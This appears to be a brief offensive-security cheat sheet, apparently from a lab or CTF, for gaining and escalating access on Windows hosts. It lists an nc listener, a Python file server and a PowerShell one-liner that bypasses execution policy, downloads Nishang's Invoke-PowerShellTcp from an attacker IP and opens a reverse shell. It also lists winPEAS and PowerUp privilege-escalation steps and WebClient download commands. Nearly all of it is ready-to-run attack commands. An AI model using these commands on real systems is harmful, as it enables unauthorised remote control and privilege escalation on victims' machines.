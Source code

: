 # reverses 

## windows ncat binary

https://github.com/andrew-d/static-binaries/raw/master/binaries/windows/x86/ncat.exe


## nishang reverse tcp binay
https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1


Use python2 -m SimpleHTTPServer 8888 : to serve

nc -lvp 4445 : listener

powershell.exe -nop -ep bypass -c "iex ((New-Object Net.WebClient).DownloadString('http://10.10.121.196:8888/Invoke-PowerShellTcp.ps1'));Invoke-PowerShellTcp -Reverse -IPAddress 10.10.121.196 -Port 4445"



# Privilege elevation

## winPea
https://github.com/carlospolop/PEASS-ng/releases/download/20221009/winPEASany.exe


## PowerUp 

https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1

PS > . .\Powerup.ps1
PS > Invoke-Allchecks  



# Download file

(new-object System.Net.WebClient).DownloadFile('http://www.xyz.net/file.txt','C:\tmp\file.txt')

(new-object System.Net.WebClient).DownloadFile('http://10.10.121.196:8888/winPEASany.exe','C:\Users\bill\Desktop\winPEASany.exe')




